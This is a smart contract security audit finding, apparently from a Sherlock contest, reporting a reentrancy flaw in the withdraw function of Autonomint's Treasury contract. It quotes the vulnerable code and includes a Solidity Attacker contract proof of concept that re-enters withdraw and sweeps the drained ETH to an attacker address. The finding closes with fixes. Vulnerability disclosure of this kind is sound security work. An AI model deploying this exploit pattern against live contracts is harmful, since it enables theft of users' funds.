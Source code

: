 Future Beige Mole

High

# Risk of Reentrancy Attacks in Withdraw Functions

# Summary
https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/contracts/Core_logic/Treasury.sol#L226-L276
A reentrancy attack in withdraw function occurs when a malicious user exploits a vulnerability in the smart contract by recursively calling the withdraw function before the contract's state is updated. This can allow the attacker to withdraw more funds than they are entitled to, draining the contract's balance.
# Vulnerability Details
The provided withdraw function has a reentrancy vulnerability that could be exploited by attackers to repeatedly withdraw collateral, potentially draining the contract's funds. This occurs due to the external call (call{value: amount}("")) made before updating the internal state of the contract, specifically the depositDetails struct and the total volume tracking variables.

Vulnerable Code Sections:
Collateral Transfer before State Update: In the section where the function transfers collateral to the user:
```solidity

if (depositDetails.assetName == IBorrowing.AssetName.ETH) {
    // Send the ETH to Borrower
    (bool sent, ) = payable(toAddress).call{value: amount}("");
    require(sent, "Failed to send Collateral");
} else {
    uint256 upside = ((depositDetails.depositedAmountInETH * 50) / 100) - amount;
    uint256 upsideToDeduct = (upside * 1 ether) / exchangeRate;
    // Transfer collateral to user
    bool sent = IERC20(borrow.assetAddress(depositDetails.assetName)).transfer(toAddress, depositDetails.depositedAmount - upsideToDeduct);
    // check the transfer is successfull or not
    require(sent, "Failed to send Collateral");
}
```
The external call to transfer the collateral is made before the contract updates the internal state (e.g., depositedAmount, depositedAmountInETH). This means an attacker can exploit this sequence of operations.
### How the Attack Works:
The attacker calls the withdraw function, passing their own contract as the toAddress.
Upon receiving the withdrawal request, the contract sends ETH or token collateral to the attacker’s contract using call{value: amount}("") (for ETH) or IERC20().transfer(toAddress) (for ERC20 tokens).
The attacker's contract contains a fallback function or receive function, which is triggered immediately upon receiving the funds.
In the fallback function, the attacker’s contract calls the withdraw function again, withdrawing more funds before the internal state (such as depositedAmount, depositedAmountInETH, and totalBorrowedAmount) is updated.
This results in a reentrant call where the attacker can withdraw more funds than they are entitled to, continuing until the contract’s balance is drained.
# Impact
Total Loss of Funds
Loss of Collateral
### Severity: High. 
The reentrancy vulnerability allows an attacker to repeatedly withdraw funds, which can drain the contract's balance, causing significant financial loss.
### Likelihood: High.
 The use of external calls before state updates makes the contract prone to reentrancy attacks, particularly if the attacker controls a malicious contract that can trigger the fallback function.
# PoC
The malicious contract will:

Call the withdraw function in the target contract to trigger the collateral transfer.
When the collateral is sent, the fallback function will be triggered, which will call the withdraw function again before the state is updated, allowing the attacker to drain funds.
```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITarget {
    function withdraw(address borrower, address toAddress, uint256 amount, uint128 exchangeRate, uint64 index) external payable returns (bool);
}

contract Attacker {
    ITarget public targetContract; // Address of the target contract
    address public borrower;       // Borrower address whose collateral will be withdrawn
    address public maliciousAddress; // Attacker's address to receive the funds

    constructor(address _targetContract, address _borrower, address _maliciousAddress) {
        targetContract = ITarget(_targetContract);
        borrower = _borrower;
        maliciousAddress = _maliciousAddress;
    }

    // Fallback function to trigger reentrancy
    fallback() external payable {
        uint256 amountToWithdraw = 1 ether; // Set the withdrawal amount for the attack
        // Call withdraw again during the reentrancy to drain more funds
        targetContract.withdraw(borrower, maliciousAddress, amountToWithdraw, 1, 0);
    }

    // Function to initiate the attack
    function attack(uint256 amountToWithdraw) external {
        uint128 exchangeRate = 1;  // Exchange rate (set as 1 for simplicity)
        uint64 index = 0;          // Deposit index (adjust as needed)

        // Call withdraw function on the target contract, this triggers the fallback function
        targetContract.withdraw(borrower, address(this), amountToWithdraw, exchangeRate, index);
    }

    // Function to collect stolen funds
    function collectFunds() external {
        payable(maliciousAddress).transfer(address(this).balance);
    }

    // Helper to receive ETH from the target contract
    receive() external payable {}
}
```
# Recommendations
### Checks-Effects-Interactions Pattern:
The contract should update the internal state before making any external calls or transferring funds. This ensures that any changes to state variables (such as depositedAmount, depositedAmountInETH, and total collateral values) are finalized before external interaction.
Updated code would look like this:

```solidity

// Update the internal state first
depositedCollateralAmountInUsd[depositDetails.assetName] -= depositDetails.depositedAmountUsdValue;
depositedCollateralAmountInWei[depositDetails.assetName] -= depositDetails.depositedAmountInETH;
totalVolumeOfBorrowersAmountinUSD -= depositDetails.depositedAmountUsdValue;
totalVolumeOfBorrowersAmountinWei -= depositDetails.depositedAmountInETH;
borrowing[borrower].totalBorrowedAmount -= depositDetails.borrowedAmount;
borrowing[borrower].depositedAmountInETH -= depositDetails.depositedAmountInETH;

// Transfer collateral after internal state is updated
if (depositDetails.assetName == IBorrowing.AssetName.ETH) {
    (bool sent, ) = payable(toAddress).call{value: amount}("");
    require(sent, "Failed to send Collateral");
} else {
    uint256 upside = ((depositDetails.depositedAmountInETH * 50) / 100) - amount;
    uint256 upsideToDeduct = (upside * 1 ether) / exchangeRate;
    bool sent = IERC20(borrow.assetAddress(depositDetails.assetName)).transfer(toAddress, depositDetails.depositedAmount - upsideToDeduct);
    require(sent, "Failed to send Collateral");
}
```
### Reentrancy Guard:

Use a reentrancy guard to ensure that the function cannot be called multiple times during the same transaction. Example:
```solidity

bool private locked = false;

modifier nonReentrant() {
    require(!locked, "No reentrancy allowed");
    locked = true;
    _;
    locked = false;
}

function withdraw(
    address borrower,
    address toAddress,
    uint256 amount,
    uint128 exchangeRate,
    uint64 index
) external payable onlyCoreContracts nonReentrant returns (bool) {
    // Function logic here
}
```
Use Pull Payments:

Instead of directly transferring funds to users, a safer approach is to use pull payments where users can explicitly request their funds after the state has been updated.
